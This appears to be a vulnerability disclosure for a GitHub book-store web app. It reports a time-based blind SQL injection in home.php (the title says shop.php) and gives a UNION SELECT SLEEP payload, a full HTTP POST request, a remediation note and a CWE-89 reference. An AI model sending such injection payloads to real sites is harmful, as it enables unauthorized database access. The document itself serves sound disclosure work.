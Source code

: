 # keerti1924 / Online-Book-Store-Website - shop.php Blind SQL Injection

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The 'home.php' script in keerti1924's Online-Book-Store-Website is vulnerable to Blind SQL Injection attacks. An attacker could exploit this vulnerability to execute arbitrary SQL queries on the underlying database, potentially leading to unauthorized access to sensitive information or data manipulation.

## Proof of Concept
Step 1: Login as a normal user\
Step 2: Make a Post request to home.php  with the following payload "add_to_cart=1&product_name=asdasd'+UNION+SELECT+SLEEP(10),NULL,NULL,NULL,NULL,NULL+%23&product_price=123&product_quantity=1&product_image=1"\
Step 3: Submit the request and observe a 10-second delay in the response.\

## HTTP Request Example
``` http request
POST /home.php HTTP/1.1
Host: [REDACTED]
Content-Length: 139
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

add_to_cart=1&product_name=asdasd'+UNION+SELECT+SLEEP(10),NULL,NULL,NULL,NULL,NULL+%23&product_price=123&product_quantity=1&product_image=1
```

## Proof with screenshot

## Remidiation
To mitigate this issue, developers should implement proper input validation and parameterized queries to prevent SQL injection attacks. Additionally, limiting the privileges of the database user used by the application and enforcing least privilege principles can further reduce the impact of SQL injection vulnerabilities.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
